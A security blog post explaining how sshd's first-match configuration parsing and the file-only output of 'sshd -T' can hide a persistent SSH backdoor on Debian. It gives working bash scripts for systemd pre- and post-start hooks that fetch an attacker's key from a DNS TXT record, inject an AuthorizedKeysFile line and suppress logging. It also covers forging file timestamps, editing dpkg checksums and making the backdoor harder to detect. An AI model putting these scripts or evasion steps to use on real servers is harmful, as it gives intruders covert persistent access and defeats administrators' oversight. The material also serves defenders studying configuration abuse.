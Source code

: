 ```yaml
---
layout: post
title: "Achieving persistence with a hidden SSH backdoor"
author: "Joshua Rogers"
categories: security
---
```


Configuration parsing is an interesting topic I have been working on in the context of my hacking and creating simple backdoors which are hidden from your average sysadmin.

A recent post titled [Everything that uses configuration files should report where they're located](https://utcc.utoronto.ca/~cks/space/blog/sysadmin/ReportConfigFileLocations) piqued my interest, as it related to the unique ways that configuration files are located, prioritized, and eventually parsed. The original post argued that programs should output the location that configuration files are parsed. I concur, and also believe that programs should report their _configurations_ as they are running. This post, among some information about `sshd`, outlines why.

As pointed out in the comments of [a HN post](https://news.ycombinator.com/item?id=36465886), parsing of configuration files generally take a "last occurrence wins" strategy -- if the same configuration option is specified multiple times, the final one takes preference (assuming the option cannot be specified multiple times). However, some programs, like `sshd` take the opposite approach: the _first_ occurrence wins. From `man sshd(8)`:
```
Unless noted otherwise, for each keyword, the first obtained value will be used.
```

_sshd_ also offers functionality to check the configuration _file_:

```
     -T      Extended test mode.  Check the validity of the configuration file, output the effective configuration to stdout and then exit.  Optionally, Match rules may be applied by specifying the connection parameters using one or more -C options.

     -t      Test mode.  Only check the validity of the configuration file and sanity of the keys.  This is useful for updating sshd reliably as configuration options may change.
```
One of the gotchas here is that this test (as it _is_ written) parses the configuration file as it exists; it does _not_ print the current configuration of a running _sshd_ daemon.

In the context of hacking, this is particularly useful, as it is possible to load a malicious `sshd_config` file, reload `sshd`, and then overwrite the malicious configuration file with an innocent-looking version. Your average sysadmin which may look at the `sshd_config` file or run `sshd -T` to check the configuration will be none-the-wiser to the actual configuration options used.

I recently made use of this functionality to create a minimalist ssh backdoor on Debian, achieving persistence quite easily. Using two scripts and updating systemd\'s `ssh.service` file to run the scripts before and after `sshd` starts, persistence using ssh is gained on the server. (Note: I also altered `/var/lib/dpkg/info/openssh-server.md5sums` to state the new ssh.service has the correct checksum.)

The first script has the following functionality:
1. Determine the proper `authorizedkeysfile` value.
2. Create the folder `/etc/calendar/` if it does not already exist, copying the access and modifications times of the `/etc/` folder.
3. Retrieve an SSH public key from the TXT record of `$(hostname).joshua.hu` and save it to `/etc/calendar/root`.
4. Copies the proper sshd configuration file to a temporary file.
5. Overwrites the original sshd configuration file with an `authorizedkeysfile`  option, which contains both the proper value as well as the `/etc/calendar/root` location (ensuring that this malicious `authorizedkeysfile` option is loaded first).
6. Appends the `loglevel` configuration to  the configuration file (ensuring it is loaded first).
7. Appends the original sshd configuration file from the temporary file, to the new sshd configuration file.

```bash
#!/bin/bash
keysfile=`/usr/sbin/sshd -T | awk -F authorizedkeysfile '/authorizedkeysfile/ {print $NF}'` || keysfile=".ssh/authorized_keys"

if [ ! -d "/etc/calendar/" ]; then
    mkdir /etc/calendar/
    touch -r /etc/ /etc/calendar/
fi

dig +short TXT $(hostname).joshua.hu | sed 's/\x22//g' > /etc/calendar/root

cp /etc/ssh/sshd_config /etc/ssh/sshd_config.bak

echo "AuthorizedKeysFile /etc/calendar/root ${keysfile}" > /etc/ssh/sshd_config
echo "LogLevel ERROR" >> /etc/ssh/sshd_config
cat /etc/ssh/sshd_config.bak >> /etc/ssh/sshd_config
exit 0
```

This script is run when sshd is (re)started, _before_ the sshd binary itself is executed, using the `ExecStartPre` systemd directive.

The second script, which is executed _after_ the sshd binary is running (using the `ExecStartPost` systemd directive) simply moves the original sshd configuration file back to its original location.

```bash
#!/bin/bash
mv /etc/ssh/sshd_config.bak /etc/ssh/sshd_config
touch -r /etc/ /etc/ssh/sshd_config
exit 0
```

The key which exists in `/etc/calendar/root` will now be accepted for all users on the server. A sysadmin looking at the `/etc/ssh/sshd_config` file will see nothing spectacular, and `sshd -T` will not report the in-memory configuration. Of course, if the sysadmin looks at the ssh.service file, they will see it has been altered (and which will be overwritten when `openssh-server` updates).

Things get a bit more interesting when it comes to to `sshd`. `sshd_config` in Debian 11+ and Ubuntu 20.04+ "[sets several options as standard in /etc/ssh/sshd_config which are not the default](https://manpages.debian.org/bullseye/openssh-server/sshd_config.5.en.html)". Namely, `Include /etc/ssh/sshd_config.d/*.conf`. This is the first actionable configuration in `/etc/ssh/sshd_config` on Debian 11 and Ubuntu 20.04.

Therefore, instead of editing `/etc/ssh/sshd_config`, it is possible to simply create a file ending in `.conf` in `/etc/ssh/sshd_config.d/` and restart `sshd`, and then delete the file.

What's even more fun is that when `sshd` is reloaded, current connections do not acquire the new configuration. For multiplexed SSH connections, this means you may even hide your connection using an old configuration.

Is this what the DoD meant by [living off the land](https://media.defense.gov/2023/May/24/2003229517/-1/-1/0/CSA_Living_off_the_Land.PDF)? By knowing how programs use configuration files and abusing their functionality for exploitation?

A more persistent threat would:
1. Use something like [shc](https://github.com/neurobin/shc) to convert these scripts into binaries,
2. Use some type of encryption/encoding for the retrieval of the public key (versus plaintext over DNS),
3. Set the `ctime` of the files using a [basic trick](https://unix.stackexchange.com/a/557160),
4. Use an alternative to altering the `ssh.service` systemd file (for example some type of service that monitors for when `sshd` starts/reloads and performs the necessary changes at the appropriate times, independent of systemd.) 
